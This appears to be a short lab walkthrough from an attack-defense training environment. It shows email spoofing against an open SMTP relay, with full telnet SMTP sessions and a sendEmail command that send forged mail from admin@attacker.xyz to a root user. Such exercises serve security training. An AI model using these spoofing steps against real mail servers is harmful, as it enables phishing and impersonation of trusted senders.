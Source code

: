Connect to SMTP service using telnet and send a fake mail to root user.

```
root@attackdefense:~# telnet 192.229.175.3 25
Trying 192.229.175.3...
Connected to 192.229.175.3.
Escape character is '^]'.
220 openmailbox.xyz ESMTP Postfix: Welcome to our mail server.
HELO attacker.xyz
250 openmailbox.xyz
MAIL FROM:admin@attacker.xyz
250 2.1.0 Ok
RCPT TO:root@openmailbox.xyz
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
From: "admin" <admin@attacker.xyz>
To: "root" <root@openmailbox.xyz>
Subject: A fake mail

"This is a fake mail from admin to root user."
.
250 2.0.0 Ok: queued as 34F02C95909
```

```
root@attackdefense:~# telnet 192.229.175.3 25
Trying 192.229.175.3...
Connected to 192.229.175.3.
Escape character is '^]'.
220 openmailbox.xyz ESMTP Postfix: Welcome to our mail server.
HELO attacker.xyz
250 openmailbox.xyz
MAIL FROM:admin@attacker.xyz
250 2.1.0 Ok
RCPT TO:root@openmailbox.xyz
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Hello,

This is a fake mail sent using telnet command.

From,
Admin

.
250 2.0.0 Ok: queued as 29BD7C95903
```

Send a fake mail to root user using sendemail command.

```
root@attackdefense:~# sendEmail -f admin@attacker.xyz -t root@openmailbox.xyz -u "A fake mail" -m "This is a fake mail." -s 192.229.175.3 -o tls=no
Dec 14 15:19:53 attackdefense sendEmail[242]: Email was sent successfully!
```
